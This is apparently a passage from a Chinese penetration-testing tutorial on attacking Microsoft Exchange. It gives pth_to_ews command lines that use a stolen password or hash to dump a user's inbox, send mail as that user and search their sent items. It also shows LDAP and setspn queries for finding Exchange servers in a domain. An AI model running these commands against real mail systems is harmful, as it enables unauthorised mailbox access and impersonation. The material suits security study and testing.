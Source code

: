 头像哥的这个工具有个地方需要注意的是,他默认监听的是80端口的,咱们访问EWS接口一般用443,就以为没打成功,实际成功了.

[![](https://p2.ssl.qhimg.com/t018567c77e1b604918.png)](https://p2.ssl.qhimg.com/t018567c77e1b604918.png)



## 0x05 hash/密码 操作ews接口

可以使用现成工具

### <a class="reference-link" name="1.%20pth_to_ews"></a>1. pth_to_ews

[https://github.com/pentest-tools-public/Pass-to-hash-EWS](https://github.com/pentest-tools-public/Pass-to-hash-EWS)

保存在目录下的inbox文件夹中为eml格式

```
pth_to_ews.exe https://MAIL/ews/exchange.asmx  -U daiker -P 密码  -MType Inbox
```

发送邮件

```
pth_to_ews.exe https://MAIL/ews/exchange.asmx -U daiker -P 密码 -Sendmail -T "123" -TM zhangjiawei1@Liton-Lab.com -B HTML.txt
```

搜索邮件内容含有ACL的邮件

```
pth_to_ews.exe https://MAIL/ews/exchange.asmx  -U daiker -P 密码 -MType SentItems -Filterstring "ACL" 搜索ACL
```

如果有自己研发的需求,见3好学生的Exchange Web Service(EWS)开发指南



## 0x06 Exchange 在域内的位置

### <a class="reference-link" name="1.%20%E5%9F%9F%E5%86%85%E5%AE%9A%E4%BD%8DExchange%E6%9C%8D%E5%8A%A1%E5%99%A8"></a>1. 域内定位Exchange服务器

在域内可以使用ldap定位,过滤规则

```
"(objectCategory=msExchExchangeServer)"
```

可以通过spn 来定位

```
setspn -Q IMAP/*
```

### <a class="reference-link" name="2.%20Exchange%E5%86%85%E9%83%A8%E7%9A%84%E5%9F%9F%E7%AE%A1%E5%87%AD%E6%8D%AE"></a>2. Exchange内部的域管凭据
